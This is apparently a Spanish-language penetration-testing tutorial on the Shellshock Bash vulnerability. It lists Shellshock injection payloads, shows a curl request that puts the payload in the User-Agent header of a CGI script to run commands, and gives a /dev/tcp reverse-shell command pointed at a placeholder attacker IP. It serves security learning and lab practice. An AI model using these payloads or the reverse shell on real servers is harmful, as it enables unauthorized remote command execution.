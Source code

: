 # Shellshock (CVE-2014-6271)

---

**Shellshock** es una vulnerabilidad crítica que afecta al intérprete de comandos **Bash** en muchos sistemas operativos Unix y Linux. Se descubrió en **2014** y permite a los atacantes **ejecutar comandos** **arbitrarios** en sistemas vulnerables pudiendo incluso permitir la ejecución de comandos remotos. La vulnerabilidad Shellshock afecta a las versiones de Bash desde la versión **1.14** hasta la versión **4.3**.

La vulnerabilidad permite ejecutar comandos inyectado a través de un variable de entorno después de declarar una función en bash. Es decir, que técnicamente si a una variable de entorno le indicamos el valor de `() { :; };` — *Así es cómo se declara una función en Bash* —, luego de definir estos caractéres colocamos un `echo` para definir una especie de delimitador o separador que crea una nueva línea y por último el comando que queremos ejecutar.

```bash
env var_name='() { :; }; echo ES_VULNERABLE' /bin/bash -c 'echo PRUEBA'

# Output
ES_VULNERABLE
PRUEBA
```

# Detectar si un sistema es vulnerable

---

## Verificación de Versión

Lo primero que debemos verificar es si la versión de Bash es vulnerable para eso utilizamos el siguiente comando:

```bash
bash --version
```

Si la versión se encuentra entre la 1.14 y la 4.3 es vulnerable a Shellshock.

## Inyección de Exploits

Si bien, quizás estaremos realizando un ataque de manera remota como **mostraremos más adelante** y, por ende, no tendremos acceso a la terminal, en este caso podemos realizar un conjunto de inyecciónes de exploits para detectar la vulnerabilidad.

```bash
() { :; }; echo ; /bin/bash -c '_COMMAND_'

() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'

() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'

() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;

() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo

/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'

(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'

() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'

shellshocker='() { echo _CHECKER_; }' bash -c shellshocker

() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_

() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'
```

Cualquiera de estos exploits pueden ser usado para verificar la existencia de la vulnerabilidad.

# Contexto de un Ataque Remoto

---

Como se ve anteriormente se podemos encontrarnos en un contexto remoto así qué ¿Cómo podemos ejecutar código local de manera remota en la máquina objetivo?

## Ataque Web a traves de CGI

CGI, o Common Gateway Interface, es un estándar que permite a un servidor web ejecutar programas externos, llamados scripts CGI, y devolver su salida para su visualización en un navegador web. Estos scripts pueden ser escritos en varios lenguajes de programación, tales como Bash, Perl, Python, etc., y son comúnmente utilizados para generar contenido web dinámico o interactuar con bases de datos.

En pocas palabras, con CGI podemos ejecutar comandos en el servidor local y obtener una salida en la web. En algunos casos las cabeceras de las peticiones HTTP pueden ser convertidas a variables de entorno, por ende, si el script que se está ejecutando está escrito en Bash o usa la función system o similares para ejecutar comandos desde un lenguaje de programación entonces nosotros podemos aprovechar esto e introducir nuestro exploit para que cuando se invoque Bash este cargue lea las variables de entorno y ejecute nuestro código en el servidor.

Aquí tenemos un sitio que en su página principal muestra un tiempo regresivo, esto lo hace ejecutando un script en el servidor y trayendonos un resultado.

![Untitled](images/Untitled.png)

Si vemos el código fuente veremos la ruta del archivo CGI que ejecuta dicho script.

![Untitled](images/Untitled%201.png)

Al dirigirnos a esta ruta vemos el mismo texto que se muestra en la página principal.

![Untitled](images/Untitled%202.png)

 Realizamos con CURL la siguiente petición.

```bash
**kali@kali [~]$** curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.71.92.3/gettime.cgi
```

Obtendremos en el output el resultado de la ejecución del comando.

![Untitled](images/Untitled%203.png)

# Ganando una Reverse Shell con este Ataque

---

Para ganar una Reverse Shell haciendo uso de este ataque primero nos pondremos a la escucha en nuestra máquina atacante por un puerto con NetCat.

![Untitled](images/Untitled%204.png)

Y luego en lugar de ejecutar un simple `whoami` ejecutamos un `bash -i>&/dev/tcp/IP_ATACANTE/PUERTO 0>&1` obtendremos una conexión reversa a nuestra máquina que nos permitirá ejecutar comando remotos en el servidor objetivo.

![Untitled](images/Untitled%205.png)

# Entorno de pruebas vulnerable

---

Ubuntu 12.04 ([Download from ubuntu.com](https://old-releases.ubuntu.com/releases/12.04/))